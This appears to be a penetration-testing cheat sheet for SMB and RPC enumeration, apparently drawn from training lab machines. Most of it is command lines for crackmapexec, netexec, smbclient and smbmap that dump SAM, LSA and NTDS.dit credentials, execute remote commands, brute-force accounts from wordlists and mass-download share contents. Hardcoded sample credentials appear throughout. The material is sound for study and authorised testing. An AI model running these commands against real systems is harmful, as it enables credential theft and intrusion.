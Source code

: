 ````bash
crackmapexec smb 10.10.10.175 -u '' -p '' # Authenticate as anonymous
crackmapexec smb 10.10.10.175 -u 'guest' -p 'guest' # Authenticate as guest
crackmapexec smb 10.10.10.175 -u 'valid_creds' -p 'valid_creds' # Authenticate with valid credentials
crackmapexec smb 10.10.10.177 -u <username> -p <password> --exec -c "<command>" # Execute commands
crackmapexec smb 10.129.202.137 --local-auth -u f. -p Jenni_Luvs_Magic23 --lsa # dumping lsa if we have permission
crackmapexec smb 10.129.202.137 --local-auth -u whare -p password! --sam #dumping sam if we have permission
crackmapexec smb 10.129.202.137 -u avazquez -p Password123 --pass-pol # extract password policys
````
### Netexec for smb
---
````bash
netexec smb 10.129.202.85 -u whare -p 's3cur3p@ssw0rd!' --ntds # Capturing ntds.ditt
netexec smb 10.129.202.85 -u whare -p 's3cur3p@ssw0rd!' --lsa # dumping lsa
netexec smb 10.129.202.85 -u whare -p 's3cur3p@ssw0rd!' --sam # dumping sam
netexec smb 10.129.202.85 -u whare -p 's3cur3p@ssw0rd!' -X 'whoami -all' # execute powershell commands
netexec smb 10.129.43.219 -u names.list -p pws.list --local-auth # for bureforce a local acc
netexec smb 10.129.43.219 -u names.list -p pws.list --shares
netexec smb 10.129.43.219 -u names.list -p pws.list --users # we can use groups/computers/pass-pol
netexec smb 10.129.43.219 -u names.list -p pws.list --rid-brute # bruteforcing users
````
### Smbclient
---
**Smbclient** is a command-line tool used to access and interact with shared files and printers over the SMB/CIFS protocol. It is commonly used in Linux and Unix-based systems to connect to Windows-based file shares.

````bash
smbclient //10.10.10.182/Data -U r.thompson # Connect to a specific share
smbclient -L <hostname> -U <username> # List shared resources on a server
smbclient //<hostname>/<share> -U <username> -c 'put <localfile> <remotefile>' # Upload an archive
smbclient //<hostname>/<share> -U <username> -c 'get <remotefile> <localfile>' # Download a file from the server
smbclient //10.10.10.182/Audit$ -U s.smith # With the follows commands you can dump all the avalibles files on a shared resource
smb: \> mask ""
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
````
### Smbmap
---
````bash
smbmap -H 10.10.10.192 -u audit2020 -p 'wharep@ssword2025'
````

## ENUMERATING RPC
---
**RPC** is a protocol used by programs to request services or perform tasks on a remote server or computer. It allows a program to execute code on another machine as if it were local, facilitating distributed computing. It’s widely used for client-server communication and allows seamless interaction between systems over a network.
### Rpcclient
---
**Rpcclient** is a command-line tool used to interact with the **Remote Procedure Call (RPC) service** on Windows machines, typically via SMB. It allows users to perform various tasks such as enumerating users, groups, shares, and more, by sending requests to the Windows RPC server.

